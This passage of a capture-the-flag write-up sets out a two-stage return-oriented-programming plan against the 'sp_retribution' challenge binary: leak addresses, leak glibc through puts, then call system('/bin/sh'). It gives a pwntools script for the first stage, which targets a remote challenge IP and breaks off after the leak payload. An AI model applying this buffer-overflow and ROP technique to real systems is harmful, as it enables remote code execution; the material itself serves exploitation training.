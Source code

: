 **Exploit plan**

With all this information, exploitation becomes trivial. As I mentioned at the beginning of the post, I already explained this in several posts, so I will briefly summarize how I will proceed to exploit it. This is just a regular ROP.

1. Stage 1

- Use the 1st vulnerability to leak a binary address.
- Calculate the base address.
- Identify necessary.
- Use the puts function to print a GOT Address and leak a Glibc address. (GOT address as argument of puts)
- Restart the function or go back to the main function.

2. Stage 2

- Generate a BOF once the function is restarted.
- Identify an address with the "/bin/sh" string in Glibc.
- call system with the "/bin/sh" string as argument (rdi).

The final code for this challenge is below:

```python
#!/usr/bin/python3
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./sp_retribution')
libc = elf.libc
#you can add this if you use tmux, if not, remove it or change it for you debugging choice
context.terminal = ['tmux', 'splitw', '-hp', '70']

def start():
    if args.GDB:
        return gdb.debug('./sp_retribution', gdbscript=gs)
    if args.REMOTE:
        return remote('139.59.184.63',30328)
    else:
        return process('./sp_retribution')
r = start()
#========= exploit here ===================

#Stage 1

r.sendlineafter(b">>", "2")
r.sendlineafter(b"99f], y =", "")
r.recvline()
r.recvline()
r.recvline()
r.recvline()

base = int(hex(u64(r.recvline().strip().ljust(8, b"\x00")))[:-1]+"000", 16)
log.info(f"leak = {(hex(base))}")
elf.address = base
poprdi = elf.address + 0x0d33

payload = b"A" * 0x58
payload += p64(poprdi)
payload += p64(elf.got.puts)
payload += p64(elf.sym.puts)
payload += p64(elf.sym.missile_launcher)

r.sendlineafter("Verify new coordinates? (y/n):", payload)
r.recvline()
r.recvline()
```